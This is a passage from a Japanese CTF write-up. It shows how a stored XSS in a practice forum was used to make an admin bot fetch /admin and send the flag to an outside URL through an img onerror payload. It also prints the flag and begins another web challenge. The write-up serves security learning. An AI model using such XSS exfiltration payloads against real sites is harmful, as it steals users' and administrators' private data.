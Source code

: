 ```html
                    </li>
                </ul>
            </div>
        </nav>        <div class="container mx-auto text-center partial-width pt-2">
    <h1 class="display-4">Down with Xmas!</h1>
    <p>Despite our best efforts, Xmas is Still Standing. But don't worry, we've got a great plan that will surely cripple Xmas once and for all! Before we enact that plan, feel free to chill here on our super secure forum. Remember, being a grinch is a good thing! Sadly, no one will give us funding to purchase a better server so we have to delete posts over 15 minutes old in order to save space.</p>
</div>
    </body>
</html>
```

`/post` `/report` `/admin` の 3 つのリンクがあるようです。`/post` は記事を投稿できるページで、適当な内容を投稿すると `/post/708` のようにパーマリンクが発行されて、これにアクセスすると投稿した内容を閲覧することができます。`/admin` は特に重要そうなコンテンツが見つかりません。サイトの管理者しか閲覧できないページでしょう。`/report` は記事の ID (`/post/708` の `708` 部分) を投稿できるページで、投稿すると管理者がその記事をチェックしに行くようです。

`/post` に XSS がないか `<s>test</s>` という内容で投稿してみると、斜線の入った `test` が表示されました。やった!

これを利用して管理者に `/admin` の内容を取得させて外部に投げさせてみましょう。`<img src="x" onerror="fetch('/admin').then(resp=>resp.text()).then(resp=>{(new Image).src='(省略)?a='+encodeURIComponent(resp.match(/actf\{.+?\}/g)[0])})">` を投稿し、この記事の ID を `/report` に投げると管理者が指定した URL にフラグともにアクセスしてきました。

```
actf{s4n1tize_y0ur_html_4nd_y0ur_h4nds}
```

## [Web 50] Consolation (580 solves)
> I've been feeling down lately... Cheer me up!
> 
> Author: JoshDaBosh

与えられた URL にアクセスすると、次のような HTML が返ってきました。

```html
<!DOCTYPE html>
<html>
<head>
	<title>consolation</title>
</head>

<body style="padding: 20px">

$<span id="monet">0</span>

<br /><br /><br />

<button onclick="nofret()" style="height:150px; width:150px;">pay me some money</button>

<script src="iftenmillionfireflies.js"></script>

</body>
</html>
```
